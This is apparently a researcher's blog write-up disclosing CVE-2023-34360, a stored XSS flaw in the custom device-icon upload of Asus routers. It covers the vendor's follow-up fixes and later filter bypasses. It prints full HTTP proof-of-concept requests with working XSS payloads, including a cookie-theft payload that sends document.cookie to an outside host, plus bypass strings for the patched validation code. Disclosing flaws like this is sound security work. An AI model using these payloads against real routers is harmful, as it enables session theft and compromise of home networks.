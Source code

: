 ```yaml
---
title: "Stored XSS in Asus Custom User Icons"
date: 2023-06-21T14:14:22Z
draft: true
tags: ["notes"]
---
```


![mememem](images/mememememe.png)

## CVE-2023-34360 - Stored XSS in Custom UserIcons

Whenever I get really bored I just turn back to my little Asus routers and say "buggo create-o" and invariably I find some sort of issue. Today I'm writing about some stored XSS I came across, receiving CVE-2023-34360

I stumbled across some functionality recently that I didn't realize *was* functionality-- after clicking around a bit I clicked one of the little device icons and was surprised to find a file upload form:

![custom-userIcons](images/functionality-1.png)

CLicking "Change" gives us a small list of default icons, but at the bottom we see a '+' button to upload something custom. File uploads aren't uncommon, but it's something I hadn't encountered yet in these devices, so I was immediately curious. Looking at the actual file upload I was a bit surprised-- I expected a classic multi-part form for the file upload, and thought perhaps I could do something cheeky like perform a dir traversal and/or upload something like a web shell, that would be cool-- not quite:

![upload-1](images/image-upload-1.png)

the `custom_usericon` POST parameter contains the image, but I didn't expect the payload:

`custom_usericon=D45D64B26F44%3Edata%3Aimage%2Fpng%3Bbase64%2CiVBOR`

It's pretty simple, each upload is translated into a base64 string in a data URI, and assigned to a device's MAC address:
`deviceMAC>data:image/png;base64,iVBOR[...]`

That value is then written to the DOM when the icon list is rendered.

Going from discovery to XSS was pretty simple-- the PoC below is a classic XSS:

```
POST /start_apply2.htm HTTP/1.1
Host: 192.168.1.2
Content-Length: 1034
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
[SNIPPED]
Cookie: XXXX

current_page=&next_page=&modified=0&flag=background&action_mode=apply&action_script=saveNvram&action_wait=1&custom_clientlist=[SNIPPED]&custom_usericon=000C29CB5B40%3E'-alert(document.cookie)-'
```

When the "View List" button on the home page was clicked (viewing the network map), the payload is written to the page and executed :) 

The app makes individual calls for the `ajax_uploadicon.asp?clientmac=MAC` endpoint for each device. The request above returns the following:

```
HTTP/1.0 200 OK
Server: httpd/2.0
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
Date: Sat, 29 Apr 2023 20:49:14 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close

upload_icon = 'AAAA'-alert(document.cookie)-'';
upload_icon_count="4";
upload_icon_list="F02F74D84828.log>000C29CB5B40.log>90E2BA1DE16D.log>f02f74d84828.ico>";
```

Pretty simple. But having some more fun, we can include a classic cookie-theft payload:

```
POST /start_apply2.htm HTTP/1.1
Host: 192.168.1.2
Content-Length: 1034
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
[SNIPPED]
Cookie: XXXX

current_page=&next_page=&modified=0&flag=background&action_mode=apply&action_script=saveNvram&action_wait=1&custom_clientlist=[SNIPPED]&custom_usericon=000C29CB5B40%3EAAAA'%0adocument.location="https://localh0st.run/?"%2bdocument.cookie+//';
```

And the response:

```
HTTP/1.0 200 OK
Server: httpd/2.0
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
Date: Sat, 29 Apr 2023 20:49:14 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close

upload_icon = 'AAAA'
document.location="https://localh0st.run"+document.cookie //';
upload_icon_count="4";
upload_icon_list="F02F74D84828.log>000C29CB5B40.log>90E2BA1DE16D.log>f02f74d84828.ico>";
```

Then, we see a request made out to localh0st.run :)

`https://localh0st.run/?hwaddr=3C:7C:3F:53:C1:00; apps_last=; clickedItem_tab=0`

In this case the cookies are actually pretty lame, but it's fun nonetheless.

PoC - Malicious UserIcon:

![xss-1](images/stored-xss-4.png)

Response:

![xss-2](images/stored-xss-3.png)

Rendered:

![xss-3](images/stored-xss-2.png)

### Filter Fun

So after reporting this to Asus, they provided a beta firmware to test and after a few tries I had another working PoC:

`custom_usericon=90E2BA1DE16D%3E\"%3b+onerror=alert('XSS');//`

This time, the payload required a backslash-quote `\"` to escape the `src="x"` and shove the payload after the `x"`. 

Payload:
![retest-1](images/stored-xss-RETEST-2.png)

Executed:
![retest-2](images/stored-xss-RETEST-1.png)

I sent the information to Asus and they provided a second beta firmware to test.

This time popping it proved more challenging. I wasn't able to sneak any payloads through, but after a few attempts I was noticing discrepancies in the fix-- it seemed incomplete but I couldn't prove it yet. I eventually found the filter they created in some JS, check it out below:

```JS
function getUploadIcon(clientMac) {
var result = "NoIcon";
$.ajax({
url: '/appGet.cgi?hook=get_upload_icon()&clientmac=' + clientMac,
dataType: 'json',
async: false,
success: function(response){
var base64_image = htmlEnDeCode.htmlEncode(response.get_upload_icon);
result = (isImageBase64(base64_image)) ? base64_image : "NoIcon";
}
});
return result;
function isImageBase64(str){
if(str.substr(0,11) == "data:image/"){
var base64_str = str.split(";")[1];
if(base64_str != undefined){
var img_str = base64_str.substr(7);//filter base64,
var len = img_str.length;
if(!len || len % 4 != 0 || /[^A-Z0-9+\/=]/i.test(img_str)){
return false;
}
var firstPaddingChar = img_str.indexOf('=');
return (firstPaddingChar === -1 || firstPaddingChar === len - 1 || (firstPaddingChar === len - 2 && img_str[len - 1] === '='));
}
}
return false;
}
```
`getUploadIcon` calls `isImageBase64(base64_image)`. Let's break it down:

1. `if(str.substr(0,11) == "data:image/"){`
    - Straight-forward, this line checks to see if the first 12 characters of the base64 string match `data:image/`. If they don't, we're moved to `return false;`. If it does, we move onto the next line
2. `var base64_str = str.split(";")[1];`
    - Now, the string is split on the ';' delimeter and the latter half is stored as `base64_str`
3. ```
    if(base64_str != undefined){
    var img_str = base64_str.substr(7);
    ```
    - The rest of the function is responsible for validating the Base64 itself is valid. It first checks that the string is not null, then grabs the actual base64 string with `base64_str.substr(7)` (remember it's sent as `base64,AAAA`)


So while this looks pretty thorough, turns out we can still sneak some XSS through. What would happen if we sent a payload with an extra `;` character?

We get a win with the following payload: `data:image/%3bbase64\%22%20onerror=alert(1);\%22,QUFBQUFBQUFBQUFBQUFBPQ==`

If we compare this to the filter, we find that the payload will be checked for a match on the first 12 characters, `data:image/`.

Next, the string is split on the `;`, which means we have the following array:
1. `data:image/%3bbase64\%22%20onerror=alert(1)`
2. `\%22,QUFBQUFBQUFBQUFBQUFBPQ==`

Now, comparing the final check against array element 2 above (it's actually 1):
```
if(base64_str != undefined){
var img_str = base64_str.substr(7);
```

We'll pass the first `if` as the string isn't null. We'll then have the string `\%22,QUFBQUFBQUFBQUFBQUFBPQ==` validated after `var img_str = base64_str.substr(7)` substr split-- so `img_str` actually becomes something like `QUFBQUFBQUFBQUFBPQ==`, which equals `AAAAAAAAAAAA=`.

Finally, this hits the DOM and is rendered as:

`<img id="imgUserIcon_0" class="imgUserIcon_card" src="data:image/;base64&quot; onerror=alert(1)" <="" div="">`

Dope! When the DOM is rendered by the network map pages, it executes as stored-DOM based XSS.

![retest-3](images/stored-xss-RETEST-4.png)

### Final Thoughts

While this is just another XSS, I had a lot of fun with it. It's not overly complex, but could've been missed pretty easily had I not put just a little more time into it-- I almost sent an email saying it seemed like it was remediated, but decided I may as well take a closer look at the filter. Glad I did!